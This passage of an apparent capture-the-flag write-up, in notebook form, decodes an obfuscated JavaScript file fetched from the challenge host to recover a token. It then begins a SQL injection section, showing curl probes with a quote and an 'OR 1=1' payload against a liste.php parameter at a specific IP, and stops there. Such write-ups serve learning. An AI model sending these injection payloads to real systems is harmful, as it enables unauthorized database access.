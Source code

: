 ```python
char_codes = !curl http://82.195.79.41/js/jquery/jquery.js
```


```python
# Convert char codes to string
char_codes = char_codes[5][25:-3].split(',')
string_message = ''.join(chr(int(i)) for i in char_codes)
string_message
```




    'if (window.location.hostname == "127.0.0.1") {\nvar _0xb79a=["\\x57\\x69\\x6C\\x6C\\x6B\\x6F\\x6D\\x6D\\x65\\x6E\\x20\\x7A\\x75\\x72\\xFC\\x63\\x6B\\x20\\x66\\x72\\x65\\x64\\x64\\x79\\x2E\\x20\\x44\\x65\\x72\\x20\\x67\\x65\\x68\\x65\\x69\\x6D\\x65\\x20\\x54\\x6F\\x6B\\x65\\x6E\\x20\\x6C\\x61\\x75\\x74\\x65\\x74\\x3A\\x20\\x34\\x31\\x37\\x38\\x35\\x35"];alert(_0xb79a[0]);\n}'




```python
# Decode hex string to ascii
hex_code = string_message[61:-23].replace('\\x', '')
binascii.unhexlify(hex_code)
```




    b'Willkommen zur\xfcck freddy. Der geheime Token lautet: 417855'



Our found token: **417855**

## 5th Token

I must say this part of the challenge was the most "challenging" one. The found vulnerability was actually obvious but it took me to long to exploit it :D But first a short introduction to the vulnerability itself.

There was this link http://82.195.79.41/liste.php?id=1 which caught my attention from the beginning. 

![hackertag](http://dl.dornea.nu/img/2015/hackertag/0b0663206b0bb77ffcb484f606c39936.png)

The first thing I did:


```python
!curl "http://82.195.79.41/liste.php?id=1'" 2> /dev/null | tail -n 1
```

    <div id="contentliquid"><div id="content">unrecognized token: "'1'';"

Aha.. Ok. Let's try again:


```python
!curl "http://82.195.79.41/liste.php?id=1'%20OR 1=1" 2> /dev/null | tail -n 1
```
